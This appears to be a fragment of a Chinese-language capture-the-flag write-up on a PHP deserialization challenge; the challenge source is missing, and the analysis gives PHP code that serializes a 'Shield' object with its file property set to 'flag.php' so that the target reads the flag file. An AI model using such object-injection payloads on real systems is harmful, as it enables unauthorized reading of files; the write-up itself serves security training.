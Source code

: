 ```
?>
```

### 分析

传入一个参数`class`,class赋值给$g,然后对g进行反序列化

利用的对象是Shield,两个方法,`__construct`在对象被创建时调用,这里并没有创建对象,这里不需要创建对象,所以反序列化不会触发该方法

```
class Shield {
        public $file="flag.php";
}
$a=new Shield();
echo serialize($a);
//将输出值传过去即可读取flag文件得到flag
```